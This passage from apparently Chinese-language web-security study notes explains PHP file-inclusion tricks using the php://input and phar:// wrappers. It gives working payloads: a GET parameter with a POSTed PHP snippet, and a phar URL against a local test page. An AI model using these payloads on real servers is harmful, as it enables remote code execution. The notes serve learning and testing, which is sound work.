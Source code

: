 `php://input` 可以访问请求的原始数据的只读流，将请求的数据当作 php 代码执行。当传入的参数作为文件名打开时，可以 将参数设为php://input，**同时post想设置的文件内容，php执行时会将 post 内容当作文件内容。**

```
GET：?rce=php://input
POST: <?php phpinfo();?>
```

注：当enctype="multipart/form-data"时，php://input 是无效的。

<img src=".\图片\Snipaste_2023-04-09_04-40-04.png" alt="Snipaste_2023-04-09_04-40-04" style="zoom: 67%;" />

##### phar://

需要将 php.ini 的参数 phar.readonly 设置为 off

新建恶意文件，打包成zip文件 用phar访问即可。以下 payload 中 `./` 代表当前目录。

```http
http://127.0.0.1:8081/www.phpsec.com/page/include.php?rce=phar://./php.zip/php.txt
```

<img src=".\图片\Snipaste_2023-04-09_04-45-52.png" alt="Snipaste_2023-04-09_04-45-52" style="zoom:67%;" />
